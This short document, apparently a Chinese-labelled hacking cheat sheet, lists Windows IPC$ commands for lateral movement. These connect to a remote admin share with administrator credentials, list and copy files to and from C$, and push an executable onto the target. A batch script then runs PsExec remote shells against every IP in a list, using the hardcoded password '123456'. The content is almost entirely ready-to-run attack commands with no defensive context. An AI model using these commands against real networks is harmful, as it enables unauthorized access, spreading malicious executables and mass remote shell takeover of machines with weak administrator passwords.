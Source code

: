	建立连接
	>net use \\192.168.1.2\ipc$ "password" /user:domain\administrator
	查看连接
	>net use
	列文件
	>dir \\192.168.1.2\c$
	查看系统时间
	>net time \\192.168.1.2
	上传文件
	>copy 1.exe \\192.168.1.2\c$
	下载文件
	>copy \\192.168.1.2\c$\1.exe 1.exe
	批量IPC
	@echo off
	echo check ip addr config file…
	if not exist ip.txt echo ip addr config file ip.txt does not exist! & goto end
	echo read and analysis file…
	for /F "eol=#" %%i in (ip.txt) do start PsExec.exe \\%%i -accepteula -u administrator -p "123456" cmd & start cmd /c PsExec.exe \\%%i -u administrator -p "123456" cmd
	:end
	exit
